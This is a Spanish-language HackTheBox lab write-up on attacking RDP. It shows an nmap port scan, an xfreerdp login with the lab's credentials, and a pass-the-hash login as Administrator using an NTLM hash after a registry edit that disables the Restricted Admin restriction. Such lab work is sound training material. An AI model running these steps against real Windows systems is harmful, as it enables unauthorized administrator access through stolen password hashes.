



# Laboratorio RDP 💻

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    
</p>

---

Nos logueamos en el servicio RDP con las credenciales que nos da HackTheBox `htb-rdp:HTBRocks!`
* `xfreerdp /v:[IP] /u:htb-rdp /p:HTBRocks!`

---

Vemos un archivo en el **escritorio** con el siguiente contenido

<p align="center">
    
</p>

---

Si tratamos de hacer **`PassTheHash`** con las credenciales obtenidas recientemente, vemos que tendremos un error
* `xfreerdp /v:[IP] /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824`

<p align="center">
    
</p>

---

Lo que haremos ahora, en la primera sesión de RDP, es modificar un registro para permitirnos acceder a RDP como el usuario `Administrator` usando **PassTheHash**

* PowerShell: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

---

Si volvemos a intentar el ataque **PassTheHash** veremos que podemos autenticarnos como el usuario `Administrator` y ver la **flag** 🏴

<p align="center">
    
</p>
